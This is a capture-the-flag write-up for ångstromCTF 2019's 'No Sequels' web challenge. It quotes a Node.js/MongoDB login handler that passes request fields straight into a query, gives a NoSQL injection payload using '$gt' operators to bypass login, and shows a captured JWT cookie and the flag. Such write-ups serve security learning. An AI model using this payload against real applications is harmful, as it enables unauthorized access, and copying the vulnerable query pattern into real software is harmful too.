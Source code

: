 # Writeup ångstromCTF 2019

In this CTF, I'm soloing with the team name **kerupuksambel**. Unfortunately, it seems that I didn't do too well in the web challs, since there are lots of things that I haven't learnt before.


## No Sequels
**Description**

The prequels sucked, and the sequels aren't much better, but at least we always have the [original trilogy.](https://nosequels.2019.chall.actf.co/)

**Solution**

First, let's see the source code attached in the link.

    var user = req.body.username;
    var pass = req.body.password;

    if (!user || !pass){
        res.send("One or more fields were not provided.");
    }
    var query = {
        username: user,
        password: pass
    }

    db.collection('users').findOne(query, function (err, user) {
        if (!user){
            res.send("Wrong username or password");
            return
        }

        res.cookie('token', jwt.sign({name: user.username, authenticated: true}, secret));
        res.redirect("/site");
    });`

We can see there that we can manipulate the username and password field.

I use the payload from [this website](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html). So the payload would be :

    Content-Type: application/json`

    {
        "username": {"$gt": ""},
        "password": {"$gt": ""}
    }

What takes me so long is that I forgot to specify the Content-Type header, so the request would be rendered as normal HTML request instead of JSON one. 

And one more things to do, since the redirection doesn't do well (I don't know if it's because a bug or intended), so I need to specify the `token` cookies by myself.

    Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4iLCJhdXRoZW50aWNhdGVkIjp0cnVlLCJpYXQiOjE1NTY1NTY2MjZ9.dEV4x4CtI4BAR7hN8wmSMeakyPGqTaOYsWPFxNSFAv4; Path=/

Flag : **actf{no\_sql\_doesn't\_mean\_no\_vuln}**
